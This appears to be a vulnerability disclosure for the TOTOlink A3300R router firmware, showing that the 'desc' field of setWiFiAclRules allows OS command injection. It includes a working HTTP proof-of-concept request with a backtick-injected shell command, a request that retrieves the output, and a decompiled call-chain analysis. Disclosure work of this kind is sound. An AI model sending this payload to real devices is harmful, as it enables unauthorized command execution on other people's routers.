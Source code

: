# TOTOlink A3300R V17.0.0cu.557_B20221024 Command Injection

## Product Information

Device: TOTOlink A3300R
Firmware Version: V17.0.0cu.557_B20221024
Manufacturer's website information：https://www.totolink.net/
Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/241/ids/36.html

![image-20240109124617070](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/7/img/image-20240109124617070.png)

## Vulnerability Description

When deal with  `setWiFiAclRules` request,`desc` parameter is vulnerable to OS command injection.

### POC

```
POST /cgi-bin/cstecgi.cgi?token=C6F41C563E86A379 HTTP/1.1
Host: 192.168.0.1
Content-Length: 130
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.1
Referer: http://192.168.0.1/advance/acl.html?token=C6F41C563E86A379
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: uid=eER8ohUW; PrivateKey=73756ACCDA18C09131DFDF6F7C5AA16B; timeout=2
Connection: close

{"mac":"14:16:9E:CC:BB:3F","desc":"funny-mud-peee`ls>/web/cmdi15.txt`","addEffect":"1","wifiIdx":"0","topicurl":"setWiFiAclRules"}
```

injection the command "ls>/web/cmdi15.txt"

![b0870a83252c01cad4f1774f3961469](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/15/img/b0870a83252c01cad4f1774f3961469.png)

check the result.

```
GET /cmdi15.txt HTTP/1.1
Host: itotolink.net
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

```

![46f04bf4acc9820a9576fd78c1b6857](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/15/img/46f04bf4acc9820a9576fd78c1b6857.png)

## Analysis

sub_4217E0 will handle the `setWiFiAclRules` request. sub_4217E0 get `desc` parameter from request body, then pass to `Uci_Set_Str` function.

![image-20240119144150895](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/15/img/image-20240119144150895.png)

`Uci_Set_Str` function Splicing uci command, and pass to `CsteSystem` function.

![image-20240109131204077](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/8/img/image-20240109131204077.png)

`CsteSystem` wraps the command and then passes it to `execv` to execute the command.

![image-20240109131330610](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/8/img/image-20240109131330610.png)

